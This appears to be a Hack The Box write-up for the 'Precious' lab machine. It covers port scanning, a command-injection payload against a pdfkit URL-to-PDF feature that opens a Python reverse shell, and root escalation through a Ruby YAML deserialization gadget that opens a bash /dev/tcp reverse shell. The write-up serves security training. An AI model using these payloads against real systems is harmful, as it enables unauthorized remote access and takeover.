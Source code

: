 ```yaml
---
title: Hack The Box - Precious
tags: [HTB, Webapp Exploit, nmap, Python]
thumbnail-img: /assets/img/thumb.png
layout: post
---
```


Some Description

## Summary
- Information Gathering
    - Nmap Scanning
- Exploit CVE for Vulnerable Version
- Privilege Escalation

---

## Information Gathering Stage
### Nmap Scanning 
`sudo nmap -sV 10.10.11.189 -p-`

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
## Exploiting Stage
Web redirect to precious.htb → add record to hosts
`echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts`
Checking around the machine, we are gather a lot of information useful like: nginx 1.18.0, port 80,22, Function Convert remote file to PDF, ...
Let's check version it! :) We have a traffic to getshell low privilege escalation

*** Check pdf version ***
```sh
#exiftool file_name.pdf 
ExifTool Version Number         : 12.57
File Name                       : file_name.pdf
File Size                       : 23 kB
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
...
Creator                         : Generated by pdfkit v?.?.?
```

Just do google search to getshell.

```bash
http://10.10.14.8/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'
```

Get shell → swap user `ruby` to `henry` (credential at .bundle in /homw/Henry folder)

User.txt: `********************************`

## Privilege Escalation

---

Transfer File linpeas.sh

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.189 - - [19/Apr/2023 22:49:13] "GET /linpeas.sh HTTP/1.1" 200 -
```

SUID

```bash
-rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent                                                                                                                                                                                  
-rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /usr/bin/bash
```

`Sudo -l`

```bash
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby **/opt/update_dependencies.rb**
```

Cat  **`/opt/update_dependencies.rb`**

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9999 0>&1'"
         method_id: :resolve
```

It execute command at line in the end of file (git_set) → change value into Reverse shell (bash).

### Listen and run file

```bash
nc -nlvp 9999
```

```bash
sudo ruby /opt/update_dependencies.rb
```

Root.txt: `********************************`